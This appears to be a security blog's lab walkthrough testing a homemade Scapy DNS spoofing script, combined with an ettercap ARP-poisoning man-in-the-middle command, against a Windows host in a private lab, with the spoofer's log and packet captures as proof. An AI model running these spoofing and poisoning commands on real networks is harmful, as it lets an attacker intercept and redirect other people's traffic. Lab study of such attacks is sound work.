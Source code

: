 The testing phase
In the previous post we built a DNS Spoofing tool using Scapy and Python.
In this post, we will validate that the script is working as expected

In this lab we will have the following systems
Kali: 192.168.0.15 (.23)
Windows Hosts: 192.168.0.16 (.36)
Gateway: 192.168.0.1

Kali
On This system, we will add entries to our hosts file for some common domain.
Let's see what this looks like
root@securitynik:~# cat /etc/hosts
127.0.0.1    yahoo.com
127.0.0.1   microsoft.com

Let's look at the ARP cache of the Windows System
C:\>arp -aInterface: 192.168.0.16 --- 0x2
  Internet Address      Physical Address      Type
  192.168.0.1           00-04-5a-6c-db-79     dynamic

Let's look at a snapshot of the IPConfig and DNS Settings of the Windows System
Ethernet adapter Local Area Connection:
        IP Address. . . . . . . . . . . . : 192.168.0.16
        Subnet Mask . . . . . . . . . . . : 255.255.255.0
        Default Gateway . . . . . . . . . : 192.168.0.1
        DNS Servers . . . . . . . . . . . : 8.8.8.8
                                            4.2.2.1

Let's look at the Windows system host file to ensure these names are not resolved locally
C:\>type "c:\WINDOWS\system32\drivers\etc\hosts"
# This is a sample HOSTS file used by Microsoft TCP/IP for Windows.
127.0.0.1       localhost

Now let's go ahead and load dnsSpoof.py on Kali
root@securitynik:~/security-nik# ./dnsSpoof.py eth0 192.168.0.15
Current system is Linux ... Good to go!!
 Sniffing for DNS Packet

Let's load up ettercap to perform our ARP Spoofing for the gateway and the windows hosts
root@securitynik:~# ettercap --mitm arp:remote --text --iface eth0 /192.168.0.1/ /192.168.0.16/

Now that ettercap is running let's check the Windows system ARP Cache again
C:\>arp -a
Interface: 192.168.0.16 --- 0x2
  Internet Address      Physical Address      Type
  192.168.0.1           08-00-27-41-9b-6c     dynamic
  192.168.0.15          08-00-27-41-9b-6c     dynamic
Awesome!! It looks like the Kali system is claiming to be 192.168.0.1

Let's go ahead and ping some hosts from our Windows system.
Remember above when we ran ./dnsSpoof.py we used 192.168.0.15 as the spoofed DNS server (./dnsSpoof.py eth0 192.168.0.15)

C:\>ping yaooo.com -n 1 && ping microsoft.com -n 1
Pinging yaooo.com [192.168.0.15] with 32 bytes of data:
Reply from 192.168.0.15: bytes=32 time<1ms TTL=64

Pinging microsoft.com [192.168.0.15] with 32 bytes of data:
Reply from 192.168.0.15: bytes=32 time<1ms TTL=64

As can be seen above, the Windows system thinks that yahoo.com and microsoft.com are both at 192.168.0.15.

What did dnsSpoof see?
Got Query on Sun May 25 12:51:23 2014
 Received Src IP:192.168.0.16,
 Received Src Port: 53049
 Received Query ID:33693
 Query Data Count:1
 Current DNS Server:8.8.8.8
 DNS Query:yahoo.com.

 Sending spoofed response packet
Sent 1 packets.
 Spoofed DNS Server: 192.168.0.15
 src port:53 dest port:53049
 Sniffing for DNS Packet
 Sniffing for DNS Packet
 Sniffing for DNS Packet

 Got Query on Sun May 25 12:51:23 2014
 Received Src IP:192.168.0.16,
 Received Src Port: 64982
 Received Query ID:36189
 Query Data Count:1
 Current DNS Server:8.8.8.8
 DNS Query:microsoft.com.

 Sending spoofed response packet
Spoofed DNS Server: 192.168.0.15
 src port:53 dest port:64982

DNS Spoof did see the request for yahoo.com and microsoft.com and did send the spoof response.

But how can we further confirm this you ask? Ok let's look at the packet capture from the Window's system perspective
Packets don't lie ... or at least shouldn't :-)

C:\tools>WinDump.exe -nn -r dnsspoof.pcap port 53
reading from file dnsspoof.pcap, link-type EN10MB (Ethernet)
12:51:23.466964 IP 192.168.0.16.53049 > 8.8.8.8.53:  33693+ A? yaooo.com. (27)
12:51:23.480022 IP 192.168.0.15.53 > 192.168.0.16.53049:  33693*- 1/1/1 A 192.168.0.15 (11
2)

12:51:23.497526 IP 192.168.0.16.64982 > 8.8.8.8.53:  36189+ A? microsoft.com. (31)
12:51:23.503152 IP 192.168.0.15.53 > 192.168.0.16.64982:  36189*- 1/1/1 (128)


If we look at the captures and the messages from dnsSpoof we can see the following for yahoo.com
Both dnsSpoof and windump report the time as: 12:51:23
Looking at the source port we see the same: 53049
Looking at the query id, we see: 33693
... and the query name? we see we have yahoo.com
More importantly we see while the client at 192.168.0.16 made a request to 8.8.8.8, it actually got its response from 192.168.0.15

Based on the above, I would conclude the tool works as expected.

Go ahead and analyse the microsoft.com reuqest by yourself ;-)

As seen between these two posts on building and testing your own tools (dnsSpoof.py), it really does not take that much effort if you are willing to put in the time.
